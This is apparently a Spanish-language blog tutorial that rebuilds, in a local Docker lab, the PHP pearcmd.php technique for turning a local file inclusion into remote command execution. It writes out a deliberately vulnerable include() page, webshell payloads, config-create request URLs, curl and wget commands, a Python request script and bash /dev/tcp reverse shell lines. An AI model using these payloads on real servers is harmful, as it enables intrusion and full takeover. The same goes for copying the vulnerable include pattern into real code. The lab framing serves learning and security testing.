



Vulnerabilidad en PHP hasta 7.3. LFI to RCE
LFI to RCE = Local File Inclusion to Remote Command Execution. Based on John Hammond Youtube video.
2444 … ⏲ Reading Time: 11 Minutes, 6 Seconds
2024-11-27 15:23 -0300
John Hammond YouTube video 1
- 1. Objetivo
- 2. Creando nuestro Laboratorio Local
- 3. Variables argc y argv
- 4. Acerca del archivo pearcmd.php
- 5. Ejecución de pearcmd.php
- 6. Hacer un archivo de prueba .php (sin usar config-create) que nos dé ejecución de comandos
- 7. Repetimos y creamos el archivo ahora haciendo uso del LFI
- 8. Usemos un script python (en vez de curl) para crear el archivo (.php)
1. Objetivo
Vamos a probar como un LFI (Local File Inclusion) nos llevará a un RCE (Remote Command Execution) vía una vulnerabilidad de PHP.
Básicamente, con el LFI podremos invocar un archivo muy particular de PHP que nos permitirá escribir en el sistema una webshell y luego con esta misma webshell podremos ejecutar comandos de sistema y ganar acceso al mismo.
El problema existe hasta la versión PHP 7.3 y esto fue reportado en el año 2021.
1.1. Laboratorio local
Crearemos un laboratorio local en el que utilizaremos Docker. La primer prueba es creando la webshell directamente en el contenedor sin usar la “vulnerabilidad” de php y luego con el LFI demostrar c√≥mo la podemos invocar. Luego s√≠, hacemos uso de la vulnerabilidad para directamente crear la webshell.
Para hacer las pruebas nos vamos a crear una imagen Docker que cuente con PHP. A partir de esta imagen crearemos un contenedor Docker que contenga una página con un LFI (Local File Inclusion).
Luego, abusaremos de un .php que existe por defecto y es una especie de consola, y según los parámetros que le demos ejecutará distintos comandos, por ejemplo: nos permite crear archivos. Podremos crear archivos con extensión .php que luego al solicitar con el navegador nos permitirá crear una webshell.
1.2. Blog de origen
El blog de origen, se ve algo así:

Blog 2
Traducción 3
Sección interesante 4
1.2.1 Autor en twitter (X)
2. Creando nuestro Laboratorio Local
Para poder hacer las pruebas en un laboratorio local necesitamos:
- Crear un contenedor (Docker)
- Crear algunos archivos para testear
2.1. Archivos y contenedores
Con nuestro Dockerfile crearemos una imagen y a partir de esta crearemos contenedores Docker (con 1 solo nos alcanza). Nuestra imagen contiene un servidor web PHP básico que escucha en el puerto 8000.
Archivo: Dockerfile
FROM php:7.0.0
COPY app/* /var/www/html/
WORKDIR /var/www/html/
CMD ["php", "-S", "0.0.0.0:8000"]
En el index.php generamos la vulnerabilidad, usaremos include para poder tener LFI.
Archivo: index.php
<?php
if ( isset($_GET['file']) ){
include($_GET['file']);
}
?>
Archivo: phpinfo.php
<?php
phpinfo();
?>
Creamos el dir app/ y movemos los archivos .php al mismo: Estos 2 archivos son los que serán accesibles en nuestro servidor web php, pero abusando del LFI “podremos llegar” a otros archivos del sistema.
2.2. Contenedor
2.2.1. Build de la imagen desde nuestro Dockerfile
Usaremos el tag = LFi 2 RCE → phplfi2rce
docker build -t phplfi2rce .
(hay un punto al final del comando indicando el directorio actual)
Hacemos el build de la imagen:
Si ahora listamos las imágenes Docker disponibles localmente veremos la que hemos creado:
docker images
2.2.2. Iniciamos un contenedor usando la imagen que hemos creado
Para iniciar un nuevo contenedor desde la imagen “phplfi2rce” ejecutamos:
docker run -p 8000:8000 phplfi2rce
(el puerto 8000 lo estamos mapeando en el mismo puerto 8000 del contenedor, donde escucha el servidor web php)
2.2.3. Probamos el servicio en el puerto 8000
Visitamos nuestra página vulnerable index.php
2.2.4. Comprobamos el LFI
Probamos el Local File Inclusion con el archivo /etc/passwd
URL:
http://127.0.0.1:8000/index.php?file=/etc/passwd
O lo que es lo mismo:
http://localhost:8000/?file=/etc/passwd
En la consola vemos los requests:
2.2.5. Accedemos al phpinfo.php
Uno de los archivos que habíamos copiado al contenedor es el phpinfo.php, es decir está accesible en la raíz del servidor web.
Visitemos la página del phpinfo.php.
http://localhost:8000/phpinfo.php
3. Variables argc y argv
En la página del phpinfo.php, busquemos por las variables que hace referencia el blog (argc y argv)
argc → contar argumentos
argv → valores de los argumentos
La siguiente es un array:
Si en la URL le pasamos despu√©s del signo de pregunta ‘?’ un texto como “cualquiercosa” lo veremos reflejado en el array.
Esta es la petición que llega al servidor web php en el contenedor:
3.1. Qué ha sucedido
El blog (traducido al inglés y acá al español) explica lo siguiente:
Si en la URL ponemos un texto, lo vemos reflejado en la página del phpinfo, es decir el texto que escribimos se está cargando en el contenido del array $_SERVER[‘argv’].
4. Acerca del archivo pearcmd.php
4.1. Cuál es la idea
pearcmd.php es un archivo relacionado con PEAR (PHP Extension and Application Repository), una herramienta de línea de comandos utilizada para manejar extensiones y librerías en PHP.
Si hacemos LFI de ese archivo pearcmd.php se invocará, es decir, se va a interpretar, pues tiene extensi√≥n php; y lo interesante es que a ese archivo le podemos pasar una lista de argumentos (de los que tiene “habilitados” el archivo), que podremos controlar a trav√©s del output que vemos en el array visto en el phpinfo.
Info de ChatGPT:
pearcmd.phpestá diseñado para usarse en CLI, donde los argumentos se pasan desde la línea de comandos. Al cargarse mediante LFI, PHP trata los parámetros de la URL como si fueran argumentos CLI, asignándolos a$_SERVER['argv'].
El archivo pearcmd.php está en la ruta: /usr/local/lib/php
Desde consola, se invoca ejecutando:
php /usr/local/lib/pearcmd.php
4.2. Veamos el archivo desde dentro del contenedor
4.2.1. Entramos al contenedor
Primero obtenemos el ID del contenedor
Ahora sí, entramos al contenedor:
docker exec -it <ID> /bin/bash
Ya dentro del contenedor, listamos el directorio:
4.2.2. Comandos que puede ejecutar el pearcmd.php
A este php lo podemos invocar usando el comando:
php <ruta al archivo pearcmd.php>
La salida es la lista de comandos/argumentos que puede tomar:
Observar esta opción en particular:
4.2.3. Código fuente del pearcmd.php
Nos copiamos el código fuente del archivo pearcmd.php

4.2.4. Análisis del config-create
El autor del blog analiza el código del config-create y dice:
El config-create necesita de 2 argumentos o parámetros:
-
el segundo parámetro es el nombre del archivo con el file path que se va a escribir (llam√©mosle “pepe”, entonces /file/path/a/pepe)
-
el primer parámetro será el contenido de lo que se escribe dentro del archivo “pepe”. Es decir, a trav√©s de pearcmd.php podemos crear un nuevo archivo (por ejemplo con extensi√≥n .php) con el contenido que queramos.
5. Ejecución de pearcmd.php
En el blog, el autor usa un HTTP GET para realizar el request (John H. crea con este código un request en Python).
Tenemos que usar el parámetro file que es el con el que tenemos LFI y los dos parámetros que necesita “config-create”:
-
El LFI invoca a trav√©s de “file” al pearcmd.php
-
Subrayado en rojo el contenido a escribir
-
Subrayado en celeste el archivo de salida.
5.1. Opción 1 - Utilizar el navegador para hacer el request y crear un archivo dentro del contenedor
Crearemos un archivo .php dentro del contenedor.
La URL a visitar es:
http://127.0.0.1:8000/index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php
El mensaje es de éxito.
Verificamos si se creó el archivo en el /tmp/hello.php dentro del contenedor:
→ ok, tenemos el archivo hello.php dentro del contenedor
Veamos el contenido:
6. Hacer un archivo de prueba .php (sin usar config-create) que nos dé ejecución de comandos
Vamos a hacer una primera prueba que es crear el archivo test.php directamente en el directorio /tmp/ del contenedor:
-
estando en una consola del contenedor
-
sin usar el config-create del pearcmd.php
Entonces:
Creamos el archivo test.php que ejecuta el comando ls.
En el contenedor, ejecutamos:
echo "<?php system('ls -l') ?>" > test.php
Visitamos la página:

→ ok, se ejecut√≥ el ’ls’
6.1. Comandos de sistema
Creamos el archivo test.php que ejecuta cualquier comando de sistema a trav√©s de una variable ‘c’
En el contenedor, ejecutamos:
echo "<?php system(\$_GET['c']) ?>"> test.php
Obs: hay que escapar el símbolo de pesos con una contrabarra (backslash).
Ahora hacemos uso del LFI, invocamos al archivo test.php, y a ‘c’ le damos el valor ‘id’:
index.php?file=/tmp/test.php&c=id
→ ok, obtenemos el resultado de ejecutar el comando ‘id’
6.2. Reverse shell
Con lo anterior podemos ejecutar una reverse shell (usando la variable ‘c’ que espera el archivo test.php)
En Kali abrimos un listener con nc, y luego la URL a visitar en el navegador es:
http://127.0.0.1:8000/index.php?file=/tmp/test.php&c=bash -c \"bash -i>%26 /dev/tcp/172.17.0.1/443 0>%261"
Vemos en la imagen anterior que recibimos una conexión entrante en el listener.
Estamos en el contenedor:
7. Repetimos y creamos el archivo ahora haciendo uso del LFI
Crearemos el archivo en el contenedor usando el LFI que invocará a config-create de pearcmd.php.
Es decir, ahora queremos hacer lo mismo que hicimos antes, pero:
-
Utilizando el config-create del pearcmd.php
-
Haciendo un request HTTP (originado fuera del contenedor)
Ahora vamos a escribir un archivo llamado test2.php.
Tenemos que escribir la cadena:
<?php system(\$_GET['c']) ?>
en el archivo test2.php
Al mandarlo vía la URL del navegador se nos complica, porque los signos de mayor y menor los convierte a código url.
Hice algunos intentos:
http://127.0.0.1:8000/index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/\<?=system(\$\_GET\[\'c\'\])?\>+/tmp/test2.php
http://127.0.0.1:8000/index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/\<?=system(id);?\>+/tmp/test2.php
En el log del servidor web del contenedor, vemos que los símbolos no llegan de forma correcta:
7.1. Usaremos curl para hacer el request y crear el archivo
En vez de usar el navegador para visitar la URL con el LFI y en la que usamos config-create para crear el archivo, usemos el comando curl (con el método GET).
7.1.1. Primer test, ejecuci√≥n del comando ‘id’
Creamos un archivo test2.php que contiene c√≥digo php y ejecuta el comando ‘id’:
curl -s -X GET 'http://127.0.0.1:8000/index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=system(id);?>+/tmp/test2.php'
→ Nos dice que se creó al archivo /tmp/test2.php
En el log, vemos que llega bien (el request, la cadena de texto) al servidor web php del contenedor:
Y si luego solicitamos la URL con el navegador usando file=/tmp/test2.php vemos que se ejecuta de forma correcta y nos da la salida del comando ‘id’ tal como esperábamos:
7.1.2. Hagamos un nuevo archivo con parámetro ‘c’
Podríamos crear el test2.php con el código necesario de una web shell, usando curl:
curl -s -X GET 'http://127.0.0.1:8000/index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=system($_GET\["c"\])?>+/tmp/test2.php'
Observar que se deben escapar los paréntesis rectos, y además intercambiar las comillas, afuera ponemos las simples y en el GET las dobles.
El log del web server en el contenedor:
7.1.2.1. Ejecución de comandos
Mediante el LFI, al igual que antes, llamaremos al archivo .php que ya creamos y le daremos en el parámetro ‘c’ el comando de sistema a ejecutar.
Comando ‘whoami’
→ ok, hemos ejecutado el comando ‘whoami’ de forma correcta
Comando ‘id’
7.1.2.2. Reverse shell
Ya tenemos el archivo test2.php que mediante la variable ‘c’ ejecutará un comando de sistema.
Como comando de sistema ahora podemos incluir el código necesario para que nos devuelva una reverse shell.
En vez de usar el navegador, podemos llamar usar wget:
wget 'http://127.0.0.1:8000/index.php?file=/tmp/test2.php&c=bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261"'
Al ejecutar el wget:
En el listener recibimos la conexión desde nuestro contenedor de pruebas:

Ya dentro del contenedor podemos realizar el análisis que queramos.
8. Usemos un script python (en vez de curl) para crear el archivo (.php)
La idea es crear un script en Python (hack.py) para hacer el GET request y así crear el archivo de extensión .php (al que luego podremos llamar mediante el LFI).
Tomaremos el código sugerido en el blog y le consultamos a Chat GPT cómo hacer el request en Python:
Aquí el código por si lo quieres copiar:
GET /index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php HTTP/1.1
Host: 192.168.1.162:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
“Please give me Python syntax to send this raw HTTP request.”
Código python sugerido por ChatGPT:
import requests
url = 'http://192.168.1.162:8080/index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php'
headers = {
'Accept-Encoding': 'gzip, deflate',
'Accept': '*/*',
'Accept-Language': 'en',
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36',
'Connection': 'close'
}
response = requests.get(url, headers=headers)
print(response.text)
→ este código sugerido será modificado.
Nos hacemos el archivo hack.py con el código sugerido por ChatGPT para ejecutar el GET request con python:
PERO: en vez de escribir la cadena phpinfo() en el /tmp/hello.php
→ escribimos otro texto para verificar simplemente:
(el signo de + actúa como espacio)
8.1. Testing usando nuestro hack.py
Dentro del contenedor podemos ver que en el /tmp/ no tenemos más que el archivo pear:
Si ejecutamos el archivo Python:
python3 hack.py
Vemos que en el log se vé el GET:
Y si revisamos el contenido del directorio /tmp:
→ Se creó el hello.php que ahora podremos invocar usando nuestro LFI → se ejecutará (se interpreta) pues es un .php
En este caso tiene un error en el echo, igualmente vemos que sí se ejecutó bien.
8.2. Ejecución remota de comandos
Podemos modificar el hack.py para que ejecute un comando de sistema, que se lo pasaremos en la URL mediante una variable ‘c’:
Lo ejecutamos de nuevo para generar un nuevo hello.php:
python3 hack.py
Volvemos a listar en el contenedor en el /tmp:
Si le hacemos un cat al hello.php:
Y si vamos al navegador, veremos:
Tenemos un Warning pues no le hemos pasado el valor, es decir el comando, a la variable ‘c’:
8.2.1. Ejecutemos el comando: id
En la url tenemos que usar el LFI para invocar al archivo hello.php.
http://localhost:8000/?file=/tmp/hello.php&c=id
Ya tenemos ejecución de comandos y si queremos podemos ejecutar una reverse shell.
8.2.2. Ganar acceso
Nuestra IP de Docker:
Vamos a la web de revshells.com
Nos copiamos la cadena con el comando sugerido, la ejecutaremos con bash pero se la daremos codificada en base64:
Listener con netcat en el puerto 8888:
8.2.2.1. Reverse shell en el hack.py
Nos copiamos el código en base64 para tenerlo guardado, o a la vista:
Creamos una nueva conexión:
Ejecutamos de nuevo el hack.py pero da un error → al parecer no le gustan los espacios.
Prueba con un ‘+’ para evitar el espacio en blanco pero tampoco funciona.
→ vamos a hacerlo con urlencode; para eso, importamos la librería urllib.parse

Ejecutamos de nuevo el hack.py y recibimos la reverse shell:
¡Bien!, somos root:
-
Youtube: John Hammond Youtube video  ↩︎
-
Blog: https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html  ↩︎
-
Traducci√≥n: https://www-leavesongs-com.translate.goog/PENETRATION/docker-php-include-getshell.html?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=es-419&_x_tr_pto=wapp  ↩︎
-
Secci√≥n interesante: https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp  ↩︎